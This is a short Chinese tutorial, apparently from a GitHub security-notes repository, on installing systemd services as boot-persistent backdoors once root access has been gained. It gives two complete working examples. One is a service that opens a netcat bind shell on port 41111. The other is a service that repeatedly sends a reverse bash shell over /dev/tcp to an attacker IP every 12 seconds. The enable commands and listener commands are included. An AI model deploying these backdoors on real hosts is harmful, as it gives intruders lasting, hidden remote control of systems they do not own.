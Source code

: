 systemd后门是一种自启动服务后门。顾名思义能够在操作系统启动后自动运行的脚本或命令。Linux下关于自启动管理最常见的是使用systemd、init.d，前者是后者的替代，目前已经默认启用于大多数Linux发行版中。

攻击者获得主机root权限后，可以在自启动脚本目录部署自己的自启动服务，达到每次开机就运行的目的。

下面给出几个简单的自启动服务例子。

## 例子1 系统重启开bindshell后门

```shell
cat /usr/lib/systemd/system/backdoor.service <<EOF
[Unit]
Description=Just a simple backdoor for test
After=network.target
[Service]
Type=forking
ExecStart=bash -c "nc -l -p 41111 -e /bin/bash &"
ExecReload=
ExecStop=
PrivateTmp=true
[Install]
WantedBy=multi-user.target

EOF
```

准备好以上的服务配置文件后，开始启用该配置

```shell
systemctl daemon-reload
systemctl enable backdoor #启用该配置，重启后开后门
systemctl start backdoor #启动该配置，立刻会开后门


nc 192.168.44.130 41111
```



## 例子2 创建类定时任务后门

下面的后门在实际场景下具有定时任务一样的特点，只要反弹shell不成功，该服务每个12s就会重新发起尝试。

```shell
cat /usr/lib/systemd/system/guard.service <<EOF
[Unit]
Description=guard
After=network.target

[Service]
Type=forking
ExecStart=/bin/bash -i > /dev/tcp/192.168.44.88/8080 0<&1 2>&1
Restart=always
RestartSec=12s

[Install]
WantedBy=default.target

EOF
```

准备好以上的服务配置文件后，开始启用该配置

```shell
systemctl daemon-reload
systemctl enable guard #启用该配置，重启后开后门
systemctl start guard #启动该配置，立刻会开后门


nc -lvvp 8080
```